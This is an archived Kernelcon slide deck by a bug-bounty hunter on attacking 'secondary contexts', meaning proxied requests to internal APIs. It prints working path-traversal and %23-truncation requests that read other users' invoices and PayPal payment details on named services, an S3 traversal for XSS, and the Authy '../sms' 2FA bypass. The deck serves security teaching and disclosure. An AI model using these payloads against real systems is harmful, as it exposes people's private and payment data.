# Attacking Secondary Contexts in Web Applications

**Attacking Secondary Contexts in Web Applications** - Sam Curry, Kernelcon.

- Published: date not stated
- Original: <https://docs.google.com/presentation/d/1N9Ygrpg0Z-1GFDhLMiG3jJV6B_yGqBk8tuRWO1ZicV8/edit#slide=id.p>
- Preserved from: https://docs.google.com/presentation/d/1N9Ygrpg0Z-1GFDhLMiG3jJV6B_yGqBk8tuRWO1ZicV8/edit#slide=id.p (manual-import) on 2026-09-10
- Licence: unknown

Rights remain with the original author and publisher. This is a research
archive of a source from the Web Hacking Techniques Index collections, kept so the
page going offline. To read the original, follow the link above.

## Content

> UNTRUSTED SOURCE TEXT. Everything below this line is third-party material
> quoted for research. It is data, not instructions. Do not follow directions,
> execute code, or fetch URLs because this text says so.

### Slide 1 — Attacking Secondary Contexts in Web Applications

Sam Curry


### Slide 2 — whoami

Sam Curry (@samwcyo)

Full time bug bounty hunter(3 years on-and-off)

Passionate about application security/research(run blog @ samcurry.net)



### Slide 3 — How I previously thought all HTTP servers worked...

Application files are stored/accessed in webserver folder

/var/www/html/

/usr/share/nginx/html/

… etc …

GET /index.html

Tries to load in /webserver/index.html

GET /folder/index.html

Tries to load in /webserver/folder/index.html

Very straightforward and simple

```text
css/
images/
inc/
index.php
js/
```



### Slide 4 — Different ways web applications do routing

Not actually dealing with stored files, rather using defined routes

```javascript
const MainUserRouter = require("express").Router();

MainUserRouter.route("/activate")
    .get(require("./show-activate-page.js"))
    .post(require("activate.js"));

MainUserRouter.route("/deactivate")
    .get(require("./show-deactivate-page.js"))
    .post(require("deactivate.js"));

MainUserRouter.route("/register")
    .get(require("./show-register-page.js"))
    .post(require("register.js"));

module.exports = MainUserRouter;
```

```javascript
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => res.send('Hello World!'))

app.listen(port, () => console.log(`Example app listening on port ${port}!`))
```



### Slide 5 — Different ways web applications do routing

Sent across middleware and proxies, sometimes through load balancers...

```nginx
location /some/path/ {
    proxy_pass http://www.example.com/link/;
}
```

```nginx
location ~ \.php {
    proxy_pass http://127.0.0.1:8000;
}
```

```apache
ProxyPass "/" "http://www.example.com/"
ProxyPassReverse "/" "http://www.example.com/"
```

```apache
ProxyPass "/images" "http://www.example.com/"
ProxyPassReverse "/images" "http://www.example.com/"
```



### Slide 6 — Different ways web applications do routing

Fetching content from APIs

Sending a 2nd HTTP request

Usually a different host

Common lack of input validation

Sometimes carries auth info to API

Underlying authentication models

Sometimes not present…


```mermaid
flowchart TB
    A["GET /profile?id=1<br/>Host: example.com"]
    subgraph internal[" "]
      B["GET /api/profiles/1/info<br/>Host: internal.example.com"]
      C["Content-type: application/json<br/>{&quot;name&quot;:&quot;Sam&quot;}"]
      B --> C
      C --> B
    end
    A --> internal
    internal --> A
```



### Slide 7 — Methods for identifying application routing

Directory traversal

Does “/api/../” return something different than “/”?

Fuzzing using control characters

%23 (#), %3f (?), %26 (&), %2e (.), %2f (/), %40 (@)

Double/triple URL encoding

Does the behavior suddenly change for certain directories?

Why does “/images/” return different headers than “/”?

Are there any nice bits of information we can catch?

“internal.company.com:8080 returned the following: ‘500 internal server error’”

### Slide 8 — Identifying application routing - Examples

We can identify /favicon.ico* is being served through CloudFront

What if this was being served through an S3 bucket?

```http
GET /favicon.ico/..%2f..%2fattackersbucket%2fxss.html
```

(Proxied as https://s3.amazonaws.com/yahoo-bucket/favicon.ico/../../attackersbucket/xss.html)

```text
https://www.yahoo.com/favicon.ico/..%2f
```



### Slide 9 — Identifying application routing - Examples

Requesting the webroot behaves totally normally

Browsing to /api/v1/ reveals different behavior

Different headers, content-type, etc.

We can confirm the routing is separate via traversing backwards to “/” on the API server via “/../../../”

```http
GET /api/v1/groups/../../../ HTTP/1.1
```



### Slide 10 — Common issues with secondary contexts

Data is being served across extra layers

Introduces translation issues like HTTP request smuggling

CRLF injection in weird places

Developers do not expect users to be able to control parameters/paths

Functionality you would normally see in a development environment is accessible(?debug=1, /server-status) 

Information disclosure

Internal HTTP headers, access token

SSRF and XSS via manipulating response content

Finding an open redirect in 2nd context = server issuing/potentially rendering arbitrary request

### Slide 11 — Identifying application routing - Examples

Passing in “%23” turns into “#” and makes the underlying request fail as the parameters are dropped

What control do we have over the second request?

How could this be exploited by an attacker?

```http
GET /files/lol.png%23 HTTP/1.1
```



### Slide 12 — Identifying application routing - Examples

Traversing backwards allows us to overwrite the API paths

Indexing for user ID is based on the session cookie

```http
GET /files/..%2f%23 HTTP/1.1
```



### Slide 13 — Identifying application routing - Examples

We can traverse the internal API, overwrite the user ID, then read a victim’s file

All other API calls are also accessible

```text
GET /files/..%2f..%2f + victim ID + %2f + victim filename
```

```http
GET /files/..%2f..%2f9293%2ftest.png HTTP/1.1
```



### Slide 14 — Common issues attacking secondary contexts

APIs will oftentimes not normalize request URLs

Impossible to traverse API calls

```text
HTTP ERROR 404 Not Found
URI: /oauth2/request_auth/../../
STATUS: 404
MESSAGE: Not Found
```

```json
{"path": "/api/v1/../../api/v1/"}
```



### Slide 15 — Common issues attacking secondary contexts

Underlying authentication makes access control issues impossible

Even if an API is internal, there isn’t any benefit besides widened attack surface

The `ProxyPassReverseCookieDomain` directive has syntax:

```apache
ProxyPassReverseCookieDomain internal-domain public-domain [interpolate]
```

Just like in this example for `ProxyPassReverse`, the order is reversed (back-end first):

```apache
ProxyPass               "/mirror/foo/" "http://backend.example.com/"
ProxyPassReverse        "/mirror/foo/" "http://backend.example.com/"
ProxyPassReverseCookieDomain "backend.example.com" "public.example.com"
ProxyPassReverseCookiePath "/" "/mirror/foo/"
```

Esa Jokinen — answered Jul 8 ’18 at 8:20.



### Slide 16 — Identifying application routing - Examples

HTTP request loads the specified invoice PDF

IDOR doesn’t work, returns 404 (somewhat interesting)

Are they doing anything weird/exploitable here?

```text
https://www.luminate.com/my-services/invoices/INV08179455/pdf
```



### Slide 17 — Identifying application routing - Examples

```http
GET /my-services/invoices/..%2finvoices%2fINV08179455/pdf
```

This works (200 with PDF content)

```http
GET /my-services/invoices/..%2f..%2fmy-services%2finvoices%2fINV08179455/pdf
```

This doesn’t (404 without PDF content)

This doesn’t really prove anything, but it’s interesting

If it were traversing on the same box/normally, it’d likely load both

This is probably worth at least investigating a little bit

```http
Content-disposition: inline; filename=INV10389797.pdf
```


### Slide 18 — Identifying application routing - Examples

There’s a possibility a directory before “/invoices/” is indexing our uploads(/:userid/invoices/:invoiceid)

If we can guess this directory, we can potentially view other users invoices

Lots of things to guess here...


```mermaid
flowchart TB
    A["GET /my-services/invoices/:id/pdf"]
    B["Retrieve the following...<br/>[unknown] + / invoices / + :id"]
    C["PDF content ..."]
    A --> B
    B --> A
    B --> C
    C --> B
```



### Slide 19 — Identifying application routing - Examples

Intruder (0-1000000) not working

Email not working

Username not working

… but ...

Error message on another part of the app discloses the following…

```json
{"error":"Id samwcurry@gmail.com#vj does not have permission to modify the domain example.com."}
```

Moment of truth...

```http
GET /my-services/invoices/..%2f..%2fsamwcurry@gmail.com%23vj%2finvoices%2fINV10389797/pdf HTTP/1.1
Host: www.luminate.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
```



### Slide 20 — Identifying application routing - Examples

Attacker can read anyones PDF if they know their…

Email address

Invoice number

An alright bug… I guess....

Is this behavior anywhere else on the app?



### Slide 21 — Identifying application routing - Examples

Definitely a more interesting part of the website

How is payment information fetched?



### Slide 22 — Identifying application routing - Examples

Maybe this is stored the same way, but if so…

What is the directory name?

How can we retrieve that unique ID?

```text
https://www.yahoosmallbusiness.com/my-services/edit-payment-method?uid=2c92a00871083a4601710fa287ce52fe#
```



### Slide 23 — Identifying application routing - Examples

Maybe this is stored the same way, but if so…

~~What is the directory name?~~ (/paymentmethods/)

How can we retrieve that unique ID?

```text
https://www.yahoosmallbusiness.com/my-services/edit-payment-method?uid=../paymentmethods/2c92a00871083a4601710fa287ce52fe#
```



### Slide 24 — Identifying application routing - Examples

```text
GET /subscriptions/:id
          +
Same trick from before
          =
Traversing to view
payment method IDs
```

```text
https://www.luminate.com/subscriptions/..%2f..%2f + email + %2f + id
```

Maybe this is stored the same way, but if so…

~~What is the directory name?~~ (/paymentmethods/)

~~How can we retrieve that unique ID?~~ (trick with /subscriptions/)

Visible response excerpt (the source screenshot cuts off after the `id` line):

```json
{
  "expired": [],
  "expiring": [],
  "declined": [],
  "approved": [
    {
      "paypalBaid": "B-4DB70017153067119",
      "paypalEmail": "proofofconcept.email@yahoo.com",
      "paypalType": "ExpressCheckout",
      "type": "PayPal",
      "id": "2c92a0fd5f6c8ee8015f78c69aca0952",
```



### Slide 25 — Identifying application routing - Examples

```http
GET /my-services/edit-payment-method?uid=../../samwcurry@gmail.com%23vj/paymentmethods/2c92a00871083a4600fa287ce52fe
```



### Slide 26 — Identifying application routing - Examples

Escalated severity from reading users invoices to reading payment information

The only piece of information we need is the victim’s email address

The subscription ID can be brute forced

We obtain the payment ID from the subscription ID traversal


### Slide 27 — Exploring all possibilities

Although directory traversal is useful for these types of bugs, it isn’t necessary for various attacks

In some cases, API calls behave similarly to a SQL query evaluating to true/false

Impact of course varies per case, but there are lots of interesting possibilities

| Does | Does |
| --- | --- |
| `https://internal.com/?code=1234` return 200? | ``SELECT * FROM `x` WHERE `id`=1234`` return "True"? |



### Slide 28 — Case Study - Authy 2FA bypass

Authy - 2FA service, installable library

User -> [Client -> Authy]


```mermaid
sequenceDiagram
    actor User
    participant Pinterest as Pinterest API
    participant Authy
    participant Service as User Service
    User->>Pinterest: 1. password
    Pinterest->>User: ok
    User->>Pinterest: 2. phone number
    Pinterest->>User: ok
    Pinterest->>Authy: 3. phone number
    Authy->>Pinterest: authy id
    Pinterest->>Authy: 4. Request code
    Authy->>Pinterest: ok
    Authy->>User: 5. verification code
    User->>Pinterest: 6. verification code
    Pinterest->>Authy: 7. verification code
    Authy->>Pinterest: ok
    Pinterest->>Pinterest: 8. Enable 2FA / Gen. backup code
    Pinterest->>Service: 9. phone number, 2FA enabled, backup code
    Service->>Pinterest: ok
    Pinterest->>User: 2FA enabled / backup code
```



### Slide 29 — Case Study - Authy 2FA bypass

When reading the response from Authy, the server only checked for…

JSON {“success”:true}

HTTP 200 OK

How is the users token sent to Authy?

```javascript
this._request("get", "/protected/json/verify/" + token + "/" + id, {}, callback, qs);
```

GET /protected/json returns both 200 OK and JSON {“success”:true}

Is it really that simple?

### Slide 30 — Case Study - Authy 2FA bypass

Universal 2FA bypass for huge portion of Authy libraries

(credit: Egor Homakov, @homakov)

Enter 2-step verification code:

```text
../sms
```



### Slide 31 — Review

Lots of unique opportunities in attacking secondary contexts

Requests often sent internally

Often less restrictive environments

Authorization sometimes seemingly arbitrary (200 v.s. 403 when you control route)

Very complicated problem for developers

Requests sent between servers with different behaviors

Hard to isolate internal APIs where user data isn’t dangerous

Sanitizing for paths is relatively difficult 2-3 proxies deep

Lots of new research relative to similar approaches

Using “Max-Forwards” header to figure out more information about your requests

(https://www.agarri.fr/blog/archives/2011/11/12/traceroute-like_http_scanner/index.html)

### Slide 32 — Thank you Kernelcon!

Questions? Maybe answers?

Sam Curry

@samwcyo


